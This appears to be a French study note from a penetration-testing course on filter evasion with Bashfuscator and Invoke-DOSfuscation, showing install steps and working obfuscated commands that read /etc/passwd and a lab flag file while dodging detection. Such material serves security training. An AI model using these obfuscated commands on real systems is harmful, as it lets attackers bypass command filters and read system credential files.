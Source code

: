 # Outils d'Évasion pour l'Obfuscation des Commandes

## <mark style="color:red;">1.</mark> <mark style="color:red;"></mark><mark style="color:red;">**Outils pour Linux (Bashfuscator)**</mark>

<mark style="color:green;">**Installation et Configuration de Bashfuscator**</mark>

*   **Clone du dépôt GitHub** :

    ```bash
    git clone https://github.com/Bashfuscator/Bashfuscator
    cd Bashfuscator
    pip3 install setuptools==65
    python3 setup.py install --user
    ```
*   **Utilisation de Bashfuscator** : Bashfuscator est un outil qui permet d'obfusquer des commandes Bash en utilisant divers mutateurs et techniques.

    Exécution de la commande avec l'option `-c` pour spécifier la commande à obfusquer :

    ```bash
    /bashfuscator -c 'cat /etc/passwd'
    ```

    Exemple d'output obfusqué :

    ```bash
    ${*/+27\[X\(} ...SNIP...  ${*~}
    ```

<mark style="color:green;">**Personnalisation des Commandes Obfusquées**</mark>

Vous pouvez affiner l'obfuscation en utilisant des options supplémentaires comme `-s`, `-t`, et `--no-mangling` :

```bash
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

{% code overflow="wrap" fullWidth="true" %}
```bash
 "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
```
{% endcode %}

Cela permet d'exécuter la commande sans que le filtre ne la détecte, même si elle semble totalement obfusquée.

<mark style="color:green;">**Test de la Commande Obfusqué**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'
```
{% endcode %}

Si l'obfuscation fonctionne, la commande exécutera correctement et affichera le contenu souhaité, par exemple :

```ruby
troot:x:0:0:root:/root:/bin/bash
```

***

## <mark style="color:red;">2.</mark> <mark style="color:red;"></mark><mark style="color:red;">**Outils pour Windows (DOSfuscation)**</mark>

<mark style="color:green;">**Installation et Configuration de DOSfuscation**</mark>

*   **Clone du dépôt GitHub** :

    ```powershell
    git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
    cd Invoke-DOSfuscation
    Import-Module .\Invoke-DOSfuscation.psd1
    ```

<mark style="color:green;">**Utilisation de DOSfuscation**</mark>

Une fois l'outil installé, il est interactif et vous permet de choisir des options pour obfusquer les commandes. Exemple d'utilisation pour obfusquer une commande de type `type` :

{% code overflow="wrap" fullWidth="true" %}
```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```ruby
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```
{% endcode %}

<mark style="color:green;">**Exécution de la Commande Obfusquée**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```
{% endcode %}

La commande retournera le résultat attendu, par exemple :

```
test_flag
```
